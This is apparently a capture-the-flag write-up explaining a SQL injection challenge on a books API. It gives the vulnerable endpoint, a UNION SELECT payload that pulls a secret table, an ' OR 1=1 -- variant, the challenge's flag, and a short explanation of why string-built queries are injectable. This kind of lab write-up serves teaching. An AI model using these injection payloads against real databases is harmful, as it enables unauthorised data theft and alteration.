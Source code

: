 ## Solution
- Background on databases: https://www.guru99.com/introduction-to-database-sql.html
- SQL (strucuted query langauge) is how to get/alter information in the database. 
- This challenge is suspectable to SQL injection (SQLi). This abuses the fact that query are run dynamically created then quiered. 
- One of the most common vulns to find in the wild! This can be used in order to steal data, alter data or much worse!
- Explainations can be seen below...


## Exploit 
- http://IP:5000/books_by_author?name="something". This is the vulernable API endpoint 
- Make a get request with the following parameter value: 
	- %27%20UNION%20SELECT%20*%20FROM%20secret;%20-- 
	- This actually looks like "' UNION SELECT * FROM secret; -- "
	- Or, "' UNION SELECT * FROM secret WHERE '1' OR '1"
- Flag: flg{SQLi_1s_fUn}
	
## How Does this Work? 
- The query is just a string. Because of this, if values are just being added to the SQL query (such as parameters) then the QUERY ITSELF can be altered. 
- SELECT b.title
  FROM author as a, books as b
  WHERE a.author_id = b.author_id AND a.name = '%s'
- Now, instead of the '%s' as a filler, let us insert a new string, such as ' OR 1=1 -- 
	- SELECT b.title
	  FROM author as a, books as b
      WHERE a.author_id = b.author_id AND a.name = '' OR 1=1 -- 
	- The query itself has been altered! With the single quote, we have escaped the string that was being used to encapsulate the input parameter. 
	- Then, in order to get the value that we want, we use a UNION (which concatanates the results of two queries). 
	
	
	